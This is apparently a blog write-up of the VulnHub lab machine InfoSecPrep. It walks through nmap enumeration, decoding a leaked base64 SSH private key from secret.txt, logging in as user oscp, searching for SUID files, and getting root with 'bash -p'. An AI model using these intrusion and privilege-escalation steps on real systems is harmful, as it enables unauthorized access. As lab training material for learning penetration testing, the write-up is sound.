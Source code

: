 ```yaml
---
layout: post
title: InfoSecPrep
description: InfoSecPrep is a linux machine in which a ssh private key is disclosed in the web page.
categories: [writeups]
tags: [vulnhub, Cryptographic Failure, SUID]
---
```


## **Summary**

We found a `base64` encoded SSH private key, which we used to access the machine. The privilege escalation was straightforward because the binary `bash`
had the SUID bit set.

> Machine can be found in [Vulnhub](https://www.vulnhub.com/entry/infosec-prep-oscp,508/)
{: .prompt-info }

## **Enumeration**

### **nmap**

nmap scan revealed that `Apache httpd 2.4.41` is running on port `80`, and robots.txt contains a Disallowed entry: `/secret.txt`

![nmap scan](/assets/infosecprep/nmap_scan.png)

```
$ nmap 192.168.1.102 -sV -sC
Nmap scan report for 192.168.1.102
Host is up (0.00067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  4 08:16:54 2022 -- 1 IP address (1 host up) scanned in 22.49 seconds
```

### **http**

`secret.txt` conatins a `base64` value

```
$ curl 192.168.1.102/secret.txt -O
```

![curl secret](/assets/infosecprep/curl_secret.png)

After we decoded it, we got a ssh private key.

`cat secret.txt | base64 -d > ssh-key`

![ssh private key](/assets/infosecprep/ssh-key.png)

## **Foothold**

We used the ssh-key to get a session as `oscp` user

> Always make sure the private key has the appropriate permissions `0600`, otherwise it won't work.
{: .prompt-info}

```
$ chmod 0600 ssh-key
$ ssh -i ssh-key oscp@192.168.1.102
```

![oscp user](/assets/infosecprep/oscp_user.png)

## **PrivEsc**

Used `find` command to find files with SUID bit set.

```
$ find / -type f -perm -u=s 2>/dev/null
```

![find suid](/assets/infosecprep/find.png)

The output showed that `/usr/bin/bash` is one of them.

![bash suid](/assets/infosecprep/bash-suid.png)

Ran `bash -p` and got a root shell

![root shell](/assets/infosecprep/root-shell.png)
